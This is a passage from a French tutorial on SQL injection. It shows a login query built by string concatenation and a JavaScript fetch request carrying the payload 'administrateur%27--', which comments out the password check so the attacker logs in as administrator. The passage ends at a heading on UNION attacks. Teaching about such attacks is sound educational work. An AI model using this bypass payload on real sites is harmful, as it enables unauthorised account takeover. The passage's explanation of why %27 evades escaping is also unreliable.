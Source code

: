 <h4 id="h4-1-2"> Interprétation par le serveur </h4>
```sql
SELECT * FROM users WHERE username = ' + requete.username + ' AND password = ' + requete.password + '
```

ce qui donne ici :
```sql
SELECT * FROM users WHERE username = 'mon_username' AND password = 'mon_password'
```

<h4 id="h4-1-3"> Attaquer cette mécanique </h4>

L'objectif est de ne pas avoir à passer l'étape de vérification de mot de passe.

Pour ça, on va utiliser une mécanique assez simple en programmation : **les commentaires**.

{% note %}
Pour une base de donnée Oracle, Microsoft ou PostgreSQL, les commentaires sont fait par **--**
Pour une base de donnée qui utilise MySQL, les commentaires sont fait par **#** qui vaut **%23** en hexadécimal
{% endnote %}

Donc si on termine le *username* envoyé dans la requête par un comentaire, il n'y aura pas de vérificaton du *password*.

```javascript
fetch("https://nomDuServeur/login",
{
    method: "POST",
    body: JSON.stringify(
      {
        username : "administrateur%27--",
        password : "n'importeQuoi"
      }
    )
})
```

{% note %}
Le caractère **%27** correspond au symbole **'** de fermeture de chaine de caractère, il permet de dire que le nom d'utilisateur est fini.
Pourquoi on utilise ça plutôt que **'** ?
Le serveur va rajouter un caractère d'échappement devant les caractères qu'il utilise notamment **'**, mais pas devant sa forme hexadécimale **%27**
{% endnote %}

<h4 id="h4-1-4"> Interprétation de la requête par le serveur </h4>

```sql
SELECT * FROM users WHERE username = 'administarteur'--' AND password = 'n\'importeQuoi'
```

{% info %}
Et là, vous êtes connecté en tant qu'administrateur du site.
{% endinfo %}

<h3 id="h4-2"> UNION Attack </h3>
